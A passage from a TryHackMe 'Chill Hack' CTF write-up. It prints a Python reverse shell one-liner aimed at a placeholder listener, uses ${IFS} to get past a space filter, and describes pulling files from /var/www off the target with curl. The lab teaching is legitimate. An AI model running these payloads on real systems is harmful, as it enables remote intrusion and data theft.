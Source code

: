 After a few different payloads, I discovered that a `python3` reverse shell worked best for me.

```python
python3${IFS}-c${IFS}'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

We'll make sure that we include  `${IFS}` to account for any spaces, set up a listener and then execute the payload.

![[chillhack_10.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/ChillHack/images/chillhack_10.png)

![[chillhack_11.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/ChillHack/images/chillhack_11.png)

And we're in. 

Now, let's try to escalate our privileges. If we look around we'll discover a folder called `files` in `/var/www` .

![[chillhack_12.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/ChillHack/images/chillhack_12.png)

Let's check it out.

![[chillhack_13.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/ChillHack/images/chillhack_13.png)

A bunch of files worth checking out. Let's download all of them to our attack box.

We can do that by setting up a python `uploadserver` then use `curl` to download them.

First, we'll create a self-signed certificate with `openssl`.

![[chillhack_14.png]](https://raw.githubusercontent.com/ToasterMouse/WriteupsAndCTFs/main/TryHackMe/ChillHack/images/chillhack_14.png)
